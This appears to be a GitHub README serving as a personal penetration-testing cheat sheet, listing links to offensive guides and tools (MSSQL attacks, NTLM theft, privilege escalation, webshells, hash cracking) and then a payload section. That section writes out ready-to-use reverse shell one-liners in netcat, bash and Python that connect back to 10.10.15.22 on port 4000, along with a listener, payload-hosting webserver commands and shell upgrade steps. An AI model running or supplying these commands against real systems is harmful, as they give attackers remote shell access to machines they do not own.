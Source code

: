 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Windows Local Privillage Escalation Checklist**](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)

## Payloads
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)

## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)
- [**NC.EXE**](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
- [**WinPeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

# Payloads
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
